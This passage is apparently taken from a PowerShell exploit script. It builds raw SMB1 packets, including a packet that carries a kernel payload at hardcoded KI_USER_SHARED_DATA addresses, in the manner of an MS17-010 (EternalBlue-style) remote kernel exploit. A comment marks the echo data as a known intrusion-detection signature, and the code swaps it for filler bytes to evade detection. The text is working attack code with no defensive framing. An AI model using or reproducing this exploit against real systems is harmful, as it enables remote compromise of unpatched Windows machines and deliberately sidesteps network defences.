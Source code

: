 # KI_USER_SHARED_DATA addresses
    $pkt += [Byte[]] (0xb0,0x00,0xd0,0xff,0xff,0xff,0xff,0xff) * 2 # x64 address
    $pkt += [Byte[]] (0x00) * 0x10
    $pkt += [Byte[]] (0xc0,0xf0,0xdf,0xff) * 2                 # x86 address
    $pkt += [Byte[]] (0x00) * 0xc4

    # payload addreses
    $pkt += 0x90,0xf1,0xdf,0xff
    $pkt += [Byte[]] (0x00) * 0x4
    $pkt += 0xf0,0xf1,0xdf,0xff
    $pkt += [Byte[]] (0x00) * 0x40

    $pkt += 0xf0,0x01,0xd0,0xff,0xff,0xff,0xff,0xff
    $pkt += [Byte[]] (0x00) * 0x8
    $pkt += 0x00,0x02,0xd0,0xff,0xff,0xff,0xff,0xff
    $pkt += 0x00

    $pkt += $kernel_user_payload

    # fill out the rest, this can be randomly generated
    $pkt += 0x00 * ($pkt_max_payload - $kernel_user_payload.length)

    return  $pkt
}

function make_smb1_echo_packet($tree_id, $user_id) {
    [Byte[]]  $pkt = [Byte[]] (0x00)               # type
    $pkt += 0x00,0x00,0x31       # len = 49
    $pkt += [Byte[]] (0xff) + $enc.GetBytes("SMB")            # SMB1
    $pkt += 0x2b               # Echo
    $pkt += 0x00,0x00,0x00,0x00   # Success
    $pkt += 0x18               # flags
    $pkt += 0x07,0xc0           # flags2
    $pkt += 0x00,0x00           # PID High
    $pkt += 0x00,0x00,0x00,0x00   # Signature1
    $pkt += 0x00,0x00,0x00,0x00   # Signature2
    $pkt += 0x00,0x00           # Reserved
    $pkt += $tree_id # Tree ID
    $pkt += 0xff,0xfe           # PID
    $pkt += $user_id # UserID
    $pkt += 0x40,0x00           # MultiplexIDs

    $pkt += 0x01               # Word count
    $pkt += 0x01,0x00           # Echo count
    $pkt += 0x0c,0x00           # Byte count

    # echo data
    # this is an existing IDS signature, and can be nulled out
    #$pkt += 0x4a,0x6c,0x4a,0x6d,0x49,0x68,0x43,0x6c,0x42,0x73,0x72,0x00
    $pkt +=  0x41,0x41,0x41,0x41,0x41,0x41,0x41,0x41,0x41,0x41,0x41,0x00
    return $pkt
}
